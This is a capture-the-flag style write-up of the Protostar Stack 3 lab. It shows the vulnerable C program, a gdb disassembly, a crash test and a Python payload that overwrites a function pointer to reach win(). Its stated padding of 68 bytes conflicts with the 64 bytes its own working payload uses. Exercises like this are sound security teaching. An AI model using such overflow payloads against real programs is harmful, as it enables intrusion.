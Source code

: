 # PROTOSTAR : STACK 3
[Protostar:Stack3](https://exploit.education/protostar/stack-three/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

We need to fill the **buffer** variable first then append the address of the **win()** function so that the poiner ***fp** goes to the **win()** function.

### **SOLUTION**

Below is the disassembly of the **main()**function
```
user@protostar:/opt/protostar/bin$ gdb -q stack3
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave  
0x08048478 <main+64>:   ret    
End of assembler dump.
(gdb) 
```

Running input and analyzing the program. **Padding = 68** and as you can see the function pointer jumps to **0x41414141** but since it is not a valid memory address it show **Segmentation Fault**.
```
(gdb) b *0x08048450
Breakpoint 1 at 0x8048450: file stack3/stack3.c, line 18.
(gdb) r
Starting program: /opt/protostar/bin/stack3 

Breakpoint 1, 0x08048450 in main (argc=1, argv=0xbffff874) at stack3/stack3.c:18
18      stack3/stack3.c: No such file or directory.
        in stack3/stack3.c
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
calling function pointer, jumping to 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) 
```

Now lets replace the last four bytes with the address of the **win()** function. Before replacing, lets find the address of the win function first.
```
user@protostar:/opt/protostar/bin$ objdump -t stack3 | grep "win"
08048424 g     F .text  00000014              win
user@protostar:/opt/protostar/bin$ 
```


Filled the **buffer** then appended the string with the address of the **win()** function.
```
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*64 + '\x24\x84\x04\x08'") | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
user@protostar:/opt/protostar/bin$ 
```

